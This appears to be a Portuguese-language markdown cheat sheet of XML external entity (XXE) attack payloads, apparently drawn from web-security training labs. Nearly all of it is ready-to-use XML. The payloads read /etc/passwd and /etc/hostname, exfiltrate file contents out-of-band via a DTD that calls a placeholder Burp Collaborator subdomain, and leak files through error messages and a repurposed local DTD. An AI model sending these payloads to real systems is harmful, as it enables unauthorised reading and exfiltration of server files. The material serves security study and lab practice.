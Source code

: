 # XXE Attacks

Explorando XXE para recuperar aquivos do sistema:

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Explorando XXE com interação OOB para ataques do tipo *bind*

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.com"> ]> 
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Explorando XXE com interação OOB com XML *parameters entities*

```xml
﻿<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]> 
<stockCheck><productId>1</productId></stockCheck>
```

DTD URL

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

Esta técnica pode no funcionar com alguns arquivos do sistema, principalmente os arquivos que contem LF. Como prova de conceito o arquivo ```/etc/passwd``` pode ser substituido pelo ```/etc/hostname```

Explorando XXE através de mensagens de erros:

Arquivo armazenado em servidor sobre controle:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

Requisição XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]> 
<stockCheck><productId>1</productId></stockCheck>
```

Explorando XXE do tipo bind por reposicionamento de um arquivo DTD local e por mensagem de erro:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
```
